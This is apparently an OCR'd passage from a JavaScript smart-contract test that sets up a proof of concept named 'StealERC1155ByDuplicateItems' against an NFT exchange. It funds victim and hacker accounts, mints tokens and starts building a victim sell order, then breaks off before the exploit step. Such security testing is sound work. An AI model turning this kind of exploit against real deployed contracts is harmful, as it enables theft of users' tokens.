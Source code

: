         // send assets
        await token.transfer(victim.address, INITIAL_SUPPLY.div(4).toString());
        await token.transfer(hacker.address, INITIAL_SUPPLY.div(4).toString());
        for (let i = 0; i < numNFTsToTransfer; i++) {
          await mock1155Contract1.mint(victim.address, i, 50, '0x');
          await mock1155Contract2.mint(victim.address, i, 50, '0x');
        }
      });
    
      describe('StealERC1155ByDuplicateItems', () => {
        it('Passed test denotes successful hack', async function () {
          // prepare order
          const user = {
            address: victim.address
          };
          const chainId = network.config.chainId ?? 31337;
          const nfts = [
            {
              collection: mock1155Contract1.address,
              tokens: [{ tokenId: 0, numTokens: 1 }]
            },
            {
              collection: mock1155Contract2.address,
              tokens: [{ tokenId: 0, numTokens: 1 }]
            }
          ];
          const execParams = { complicationAddress: obComplication.address, currencyAddress: token.address };
          const extraParams = {};
          const nonce = ++orderNonce;
          const orderId = ethers.utils.solidityKeccak256(['address', 'uint256', 'uint256'], [user.address, nonce, chainId]);
          let numItems = 0;
          for (const nft of nfts) {
            numItems += nft.tokens.length;
          }
          const order = {
            id: orderId,
            chainId,
            isSellOrder: true,
            signerAddress: user.address,
            numItems,
            startPrice: ethers.utils.parseEther('1'),
            endPrice: ethers.utils.parseEther('1'),
            startTime: nowSeconds(),
            endTime: nowSeconds().add(10 * 60),
            nonce,
            nfts,
            execParams,
            extraParams
          };
          const sellOrder = await prepare1155OBOrder(user, chainId, victim, order, infinityExchange);
          expect(sellOrder).to.not.be.undefined;
    